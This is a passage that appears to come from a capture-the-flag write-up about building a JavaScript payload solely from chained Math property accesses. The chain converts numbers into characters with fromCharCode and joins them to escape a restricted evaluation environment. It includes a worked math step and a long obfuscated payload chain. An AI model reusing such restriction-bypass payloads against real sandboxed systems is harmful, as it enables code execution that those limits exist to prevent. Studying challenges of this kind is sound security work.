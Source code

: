 $$
\mathord{\sqsupset} y = cos(15) \approx 0 
\\
\mathord{\sqsupset} x = Math.clz32(y)
\\
log_2(e^x) \approx 46
$$

So now our payload has this part `Math.cos,Math.clz32,Math.exp,Math.log2,Math.abs.name.constructor.fromCharCode,Math.seeds.push`. 

Math.random.name.localeCompare.name.length.toString,Math.log2,Math.exp,Math.abs.name.constructor.fromCharCode,\
Math.seeds.push,Math.sqrt,Math.expm1,Math.random.name.localeCompare.name.length.toString,Math.log2,Math.exp,Math.ceil,\
Math.abs.name.constructor.fromCharCode,Math.seeds.push,Math.seeds.shift,Math.seeds.shift,Math.seeds.shift,Math.seeds.shift,\
Math.seeds.shift,Math.floor,Math.random.name.anchor.name.at,Math.seeds.push,Math.acos,\
Math.random.prototype.constructor.name.link.name.at,Math.seeds.push,Math.E.constructor.name.at,Math.seeds.push,\
Math.E.constructor.name.at,Math.seeds.push,Math.cbrt,Math.log2,Math.trunc.name.at,Math.seeds.push,Math.seeds.shift,\
Math.seeds.push,Math.clz32,Math.sqrt,Math.fround.name.at,Math.seeds.push,\
Math.cbrt,Math.acos.name.at,Math.seeds.push,Math.log10,Math.cos.name.at,Math.seeds.push,Math.cbrt,Math.trunc.name.at,\
Math.seeds.push,Math.log2,Math.expm1.name.at,Math.seeds.push,Math.log2,Math.seeds.at,Math.seeds.push,Math.log2,\
Math.trunc.name.at,Math.seeds.push,Math.cos,Math.trunc.name.at,Math.seeds.push,Math.cos,Math.clz32,Math.exp,\
Math.log2,Math.abs.name.constructor.fromCharCode,Math.seeds.push,Math.asinh,Math.round,Math.seeds.find.name.at,\
Math.seeds.push,Math.asinh,Math.round,Math.seeds.isPrototypeOf.name.at,Math.seeds.push,Math.cos,Math.seeds.map.name.at,\
Math.seeds.push,Math.sin,Math.seeds.at.name.at,Math.seeds.push,Math.sin,Math.seeds.includes.name.at,Math.seeds.push,\
Math.cbrt,Math.seeds.find.name.at,Math.seeds.push,Math.seeds.shift,Math.seeds.push,Math.random.name.toString,Math.seeds.join

![img1](./imgs/9.png)

